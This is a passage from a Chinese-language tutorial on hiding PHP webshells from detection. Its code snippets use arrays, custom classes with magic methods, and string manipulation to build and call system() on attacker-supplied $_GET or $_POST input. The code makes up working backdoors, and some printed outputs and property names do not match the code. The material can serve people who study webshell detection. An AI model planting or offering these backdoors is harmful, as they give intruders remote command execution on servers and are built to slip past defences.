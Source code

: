 先将高危函数部分存储在数组中，等到时机成熟后提取出来进行拼接

###

### 6.1 一维数组

  *   *   * 

    
    
    $f = substr_replace("systxx","em",4);         //system（高危函数）$z = array($array = array('a'=>$f($_GET['aabyss'])));var_dump($z);

数组内容如下：

  *   *   *   *   *   * 

    
    
    Array ( [0] => Array ( [a] => assert($_GET['aabyss']) ) )  
    6.2 二维数组$f = substr_replace("systxx","em",4);          //system（高危函数）$z = array($arrayName = ($arrayName = ($arrayName = array('a' => $f($_POST['aabyss'])))));var_dump($z);

##

## 7# 类绕过

通过自定义类或者使用已知的类，将恶意代码放入对应的类中进行执行

###

### 7.1 单类

  *   *   *   *   *   *   *   *   * 

    
    
    class Test{    public $_1='';    function __destruct(){        system("$this->a");    }}$_2 = new Test;$_2->$_1 = $_POST['aabyss'];

###

### 7.2 多类

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    class Test1{    public $b ='';    function post(){        return $_POST['aabyss'];    }}class Test2 extends Test1{    public $code = null;    function __construct(){        $code = parent::post();        system($code);    }}$fff = new Test2;$zzz = new Test1;

主要还是要用一些魔术方法来进行ByPass

##

## 8# 嵌套运算绕过

主要通过各种嵌套、异或以及运算来拼装出来想要的函数，再利用PHP允许动态函数执行的特点，拼接处高危函数名，如 `system` ，然后动态执行恶意代码之即可

###
